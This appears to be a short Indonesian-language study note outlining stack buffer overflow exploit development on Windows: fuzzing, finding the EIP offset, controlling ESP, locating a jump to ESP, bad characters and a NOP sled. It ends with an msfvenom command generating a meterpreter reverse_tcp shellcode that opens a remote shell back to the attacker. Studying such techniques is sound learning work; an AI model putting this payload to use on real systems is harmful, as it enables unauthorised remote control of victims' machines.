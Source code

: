 # Exploit Development Steps

## Fuzzing

1. menetukan besar buffer = 2900
2. menentukan offset eip, dimana eip mulai tertimpa data == jarak tertentu dari titik awal sebuah alamat memory = 2003

Alamat memori adalah pengenal unik yang menentukan lokasi byte atau kata tertentu dalam memori. Alamat memori biasanya direpresentasikan sebagai nilai heksadesimal dan digunakan oleh CPU untuk mengakses dan memanipulasi data yang tersimpan dalam memori.

Di sisi lain, offset adalah nilai relatif yang menentukan jarak antara dua alamat memori. Ini adalah perbedaan antara alamat memori byte atau word tertentu dan alamat dasar struktur data atau array yang menjadi bagiannya. Offset sering digunakan dalam bahasa pemrograman untuk mengakses elemen tertentu dalam array atau struktur data.

memastikan offset tersebut
perhatikan esp tertimpa oleh payload kita == esp dapat kita control -> mencari intruksi jump menuju esp

set breakpoit untuk memastikan kode yang bisa kita kontrol

menentukan bad code

memberikan nops sleed

```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f python -b "\x00"
```